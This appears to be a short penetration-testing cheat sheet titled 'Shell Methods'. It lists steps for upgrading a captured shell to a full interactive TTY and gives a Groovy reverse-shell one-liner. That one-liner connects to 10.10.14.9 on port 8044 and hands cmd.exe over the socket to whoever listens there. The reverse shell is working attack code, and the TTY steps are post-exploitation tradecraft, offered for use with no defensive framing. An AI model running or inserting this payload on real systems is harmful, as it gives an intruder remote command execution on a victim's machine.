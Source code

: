 # Shell Methods

## TTY Upgrade
### Magic
1. `python -c 'import pty; pty.spawn("/bin/bash")'`
    - alternative: `script -q /dev/null /bin/bash`
2. `Ctrl-Z` # background shell
3. `echo $TERM`
4. `stty -a` # grab rows and columns
5. `stty raw -echo`
6. `fg` # foreground
7. `reset`
8. `export SHELL=bash`
9. `export TERM=xterm-256color`
10. `stty rows $rows columns $cols`

## FwdSh3ll

## Groovy Script Reverse Shell

```
* `String host="10.10.14.9";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket
s=new Socket(host,port);InputStream
pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream
po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`
```

Source: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76


